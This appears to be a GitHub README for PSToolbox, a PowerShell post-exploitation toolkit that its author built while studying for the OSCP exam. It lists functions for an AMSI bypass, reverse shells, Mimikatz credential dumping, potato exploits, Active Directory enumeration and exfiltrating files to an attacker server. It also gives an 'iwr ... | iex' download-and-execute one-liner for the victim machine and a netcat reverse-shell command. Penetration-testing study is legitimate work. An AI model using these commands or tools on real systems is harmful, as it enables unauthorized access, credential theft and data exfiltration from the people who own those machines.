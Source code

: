 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a custom python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine. It was created as a part of my studies for the OSCP exam and are intended to make tasks during the exam easier.

Functions

    Set-PSToolBoxConfig: Configure global variables including the attacker's IP, web server port, protocol, and toolbox location on the victim machine. This will run automattically when the ps1 is run. In some shells the prompts are not shown but the inputs are still expected. if you set the global variables yourself before running the script you can skip this step.
    Show-PSToolboxConfig: Display the current configuration.
    Get-SingleToolboxItem: Download a single item from the toolbox. Take a location 
    Bypass-AMZEE: Load a script to bypass AMZEE. Select your method. 
    Load-Pview: Load the PowerView script into memory.
    Start-LigoloAgent: Start the Ligolo reverse tunnel agent. Uses default port unless specified.
    Start-SharpHound: Execute SharpHound for Active Directory enumeration.
    Start-Shell: Establish a reverse shell connection.
    Load-ScriptItemInMemory: Load a script item directly into memory.
    Start-AdEnum: Perform Active Directory enumeration with homegrown adenum.ps1.
    Start-Winpeas: Execute WinPEAS for privilege escalation.
    Start-Mimikatz: Execute Mimikatz for credential dumping.
    Get-potatos: Download potato exploits.
    Send-FilesHome: Exfiltrate files to the attacker's server.
    UploadStringToWebServer: Upload a string to the web server as a file.
    UploadToWebServer: Upload files to the web server.
    Get-ToolboxItems: Download multiple toolbox items based on a match string.
    
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
*NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.

	#Show the current config
	Show-PSToolboxConfig

	#Reset the config
	Set-PSToolboxConfig

	#Download all linked files that match linpeas	
	gti -m linpeas
	
	#Download a single toolbox item instead of doing a recursive search
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1'

	#download single item and save with different name
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1' -name 'ad.ps1'

	#Start a netcat reverse shell to the attacker host
	Start-Shell -Type NC -port 4444

This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments


